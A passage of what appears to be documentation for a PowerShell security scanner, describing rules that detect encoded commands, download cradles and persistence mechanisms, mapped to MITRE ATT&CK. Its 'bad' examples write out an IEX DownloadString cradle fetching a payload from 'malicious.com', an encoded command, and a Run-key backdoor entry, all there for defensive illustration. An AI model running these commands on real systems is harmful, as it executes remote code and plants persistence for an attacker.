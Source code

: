 **Example**:

```powershell
# ❌ Bad - Base64 encoded malicious command
powershell.exe -enc "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0AA=="

# ✅ Good - Clear, readable code
Invoke-WebRequest -Uri "https://example.com"
```

#### 48. Download Cradle Detection

**Severity**: Critical  
**MITRE ATT&CK**: T1105, T1059.001, T1204.002, T1027.004, T1620, T1197  
**Description**: Detects download cradles that fetch and execute remote code

**Patterns Detected**:

- `IEX (New-Object Net.WebClient).DownloadString(...)`
- Web requests piped to IEX
- BitsTransfer followed by execution
- Reflective assembly loading from web

**Example**:

```powershell
# ❌ Bad - Download and execute without disk access
IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')

# ✅ Good - Download with validation
$script = Invoke-WebRequest -Uri "https://trusted.com/script.ps1"
# Review content before execution
```

#### 49. Persistence Mechanism Detection

**Severity**: Critical  
**MITRE ATT&CK**: T1547.001, T1053.005, T1546.003  
**Description**: Detects persistence techniques that survive reboots

**Patterns Detected**:

- Registry Run key modifications
- Scheduled task creation
- WMI event subscriptions
- PowerShell profile modifications
- Startup folder changes

**Example**:

```powershell
# ❌ Bad - Creates persistence via registry
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"

# ✅ Good - Use legitimate installation methods
# Install through proper package management
```
